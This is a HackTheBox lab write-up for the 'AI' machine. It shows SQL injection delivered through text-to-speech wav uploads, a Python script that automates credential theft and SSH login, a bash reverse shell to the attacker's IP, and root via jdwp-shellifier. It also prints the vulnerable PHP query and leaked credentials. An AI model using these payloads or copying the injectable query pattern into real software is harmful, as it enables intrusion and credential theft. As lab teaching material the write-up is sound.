

AI is a Medium Linux Box from HackTheBox. It's almost an Easy box. The first shell you get using a SQLInjection via wav file. The box transfor the audio in text, and you can perform a SQLInjection to extract an username and password, so you can ssh with the credentials.

The root path is easy, you get you jdwp running as root. You need to port forward the ports 8000 and 8080 and then execute the exploit in it.

The auto script to get the first shell is on the body of the post.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.163
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Default apache page, we run gobuster to find anything in it

We run with -x php to look for this files too

```sh
gobuster dir -u http://10.10.10.163 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php
```


We found several paths and folders. Only two of them are useful the `ai.php` and the `intelligence.php`

On ai.php seems that we can upload wav files


And on intelligence.php seems to be a wordlist to be used


## SQLInjection

We must send wav files with the text inside it, for that we will use the `flite` command

```sh
flite -w /tmp/test.wav -voice rms -t "open single quote"
```


And we upload it to the server


And we see that we have a SQLInjection


We get the Database Version

```sh
flite -w /tmp/test.wav -voice rms -t "open single quote space union select version open parenthesis close parenthesis comment database"
'  union select version()-- -
```


After some poking arround we found the query to extract the password

Username

```sh
flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space username space from users comment database"
' union select username from users -- -
```


Password

```sh
flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space password space from users comment database"
' union select password from users -- -
```


`alexa:H,Sq9t6}a<)?q93_`

Now, let's automate it.

# Auto Shell Alexa

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_alexa.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# AI HackTheBox auto SQLInjection and SSH Login

import argparse
import requests
import sys
import os
from bs4 import BeautifulSoup
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# First let's get the username
def getUsername(rhost):
    print("[+] Let's get the username !!! [+]")
    url = "http://%s/ai.php" %rhost
    os.system('flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space username space from users comment database"')
    multipart_data = {
        'fileToUpload': ('test.wav', open('/tmp/test.wav', 'rb'), "audio/x-wav"),
        'submit' : (None,"Process It")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    os.system('rm /tmp/test.wav ')
    global username
    username = re.search('Query result : (.*)', upload.text).group(1)
    username = username.removesuffix("<h3>")
    print("[+] Your username is : %s !! [+]" %username)
    
# Then get the password
def getPassword(rhost):
    print("[+] Let's get the password !!! [+]")
    url = "http://%s/ai.php" %rhost
    os.system('flite -w /tmp/test.wav -voice rms -t  "open single quote space union select space password space from users comment database"')
    multipart_data = {
        'fileToUpload': ('test.wav', open('/tmp/test.wav', 'rb'), "audio/x-wav"),
        'submit' : (None,"Process It")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    os.system('rm /tmp/test.wav ')
    global password
    password = re.search('Query result : (.*)', upload.text).group(1)
    password = password.removesuffix("<h3>")
    print("[+] Your password is : %s !! [+]" %password)

# Now let's ssh in
def sshLogin(rhost,username,password):
    print("[+] Now, let's ssh in !!!! [+]")
    command = 'sshpass -p "%s" ssh %s@%s /bin/bash' %(password,username,rhost)
    os.system(command)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Let's get the username
    getUsername(rhost)
    # Let's get the password
    getPassword(rhost)
    # Now, let's ssh in
    sshLogin(rhost,username,password)

if __name__ == '__main__':
    main()
```

Let's get root.

# Alexa --> Root

First, we run [Linpeas](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh) on the box


We see on the running process one interesting, the `jwdp` in `tomcat`


We see that it's running on port 8080


So we must do a port forwading to attack it

We will use the ssh and forward to local port 8000 and 8080

```sh
ssh -L 8000:127.0.0.1:8000 -L 8080:127.0.0.1:8080 alexa@10.10.10.163
```


Now we can access it locally


We'll use a [JDWP exploitation script](https://github.com/IOActive/jdwp-shellifier) to get root in it

We create a bash script to run a reverse shell

`0x4rt3mis.sh`

```sh
#!/bin/bash             
bash -i >& /dev/tcp/10.10.14.20/443 0>&1  
```


```sh
python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd '/dev/shm/0x4rt3mis.sh'
```


Got it.

# Source Code Analysis

We can do a code analysis on the php files to understand what is happening and how we can identify it.

We see many files on the `/var/www/html` folder


We read the `ai.php` which were posting the wav files to the server

```php
<?php
error_reporting(E_ALL);
include("db.php");
if(isset($_POST["submit"]))
{
        $file = rand(0,1000000).'.wav';
        $target_file = "uploads/".$file;
        if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file))
        {
                $output = exec("/usr/bin/python 5075140835d0bc504791c76b04c33d2b.py $target_file");
                $sql = "select output from alexa where query='$output'";
                $result = mysqli_query($conn,$sql);
                if($result->num_rows > 0)
                {
                        $row = mysqli_fetch_assoc($result);
                        $out = "Query result : ".$row["output"];
                }

                else
                {
                        $out="Query result : ".mysqli_error($conn);
                }
                        $msg = 'Our understanding of your input is : '.$output;
                        exec("rm /var/www/html/uploads/*");
        }
        else
        {
                $msg = 'Something went wrong :(';
        }
}
?>
```

It is saving the wav file which we upload to the server in a random name, than use exec to run the python script against it, and then, the result of the pytohn script is used to make a SQL Query, in a extremelly unsafe way, allowing us to make SQLInjection in it.

The python file transform the audio file to text

On the ai.php the query which is running is

```php
$sql = "select output from alexa where query='$output'";
$result = mysqli_query($conn,$sql);
```

The script in python is this

```py
import re
import sys
import speech_recognition as sr

AUDIO_FILE = (sys.argv[1])
r = sr.Recognizer()
with sr.AudioFile(AUDIO_FILE) as source:
        audio = r.record(source)

try:
        msg=r.recognize_sphinx(audio)
        #Adding intelligence to recognize symbols and some words based on phrases
        output = re.sub(r'open single quote|open single court|open single quota',"'",msg.lower())
        output = re.sub(r'open parenthesis',"(",output)
        output = re.sub(r'close parenthesis',")",output)
        output = re.sub(r'hyphen',"-",output)
        output = re.sub(r'pound sign',"#",output)
        output = re.sub(r'dot|dog|period',".",output)
        output = re.sub(r'dollar sign',"$",output)
        output = re.sub(r'caret',"^",output)
        output = re.sub(r'space'," ",output)
        output = re.sub(r'your surname|your username|you surname|surname|use her name',"username",output)
        output = re.sub(r'open double quote','"',output)
        output = re.sub(r'semicolon',";",output)
        output = re.sub(r'join',"union",output)
        output = re.sub(r'comment python',"#",output)
        output = re.sub(r'comment database|common database',"-- -",output)
        output = re.sub(r'comment php',"//",output)
        output = re.sub(r'equals',"=",output)
        output = re.sub(r'hall',"all",output)
        output = re.sub(r'three',"3",output)
        output = re.sub(r'four|for',"4",output)
        output = re.sub(r'underscore',"_",output)
        output = re.sub(r'won|wan|one',"1",output)
        output = re.sub(r'two|to',"2",output)
        output = re.sub(r'aur',"or",output)
        output = re.sub(r'are',"or",output)
        output = re.sub(r'comma',",",output)
        output = re.sub(r'can catch|can cut',"concat",output)
        output = re.sub(r'idea|design',"schema",output)
        output = re.sub(r'''(?:(?<=\') | (?=\'))''','',output)
        output = re.sub(r'(?:(?<=\_) | (?=\_))','',output)
        output = re.sub(r'(?:(?<=\.) | (?=\.))','',output)
        output = re.sub(r'(?:(?<=\,) | (?=\,))','',output)
        output = re.sub(r'(?:(?<=\") | (?=\"))','',output)
        output = re.sub(r'(?:(?<=\() | (?=\())','',output)
        output = re.sub(r'(?:(?<=\)) | (?=\)))','',output)
        print output

except sr.UnknownValueError:
        print("AI Speech Recognition could not understand audio :(")
except sr.RequestError as e:
        print("Could not request results from AI Speech Recognition service; {0}".format(e))
```

It gets the `speech_recognition` to convert it to text, many of them transform text with quotes, what makes it mode SQLI friendly possible.

The connection with the database is done with the `db.php` file

```php
<?php
$conn = new mysqli('localhost','dbuser','toor','alexa');
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```